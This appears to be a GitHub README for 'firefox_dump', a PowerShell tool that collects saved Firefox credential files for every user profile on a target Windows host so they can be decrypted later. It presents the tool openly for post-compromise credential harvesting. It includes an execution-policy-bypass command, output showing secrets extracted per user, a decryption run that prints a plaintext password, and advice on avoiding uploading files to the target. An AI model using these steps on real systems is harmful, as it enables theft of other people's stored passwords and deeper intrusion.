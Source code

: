 # firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, [`firefox_dump.ps1`](https://raw.githubusercontent.com/0xPThree/firefox_dump/main/firefox_dump.ps1), that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be run as a **high privileged user** to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

If you don't want to upload files to the target host it's possible to simply copy-paste the try-catch code from the script and run it as is in PowerShell.

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
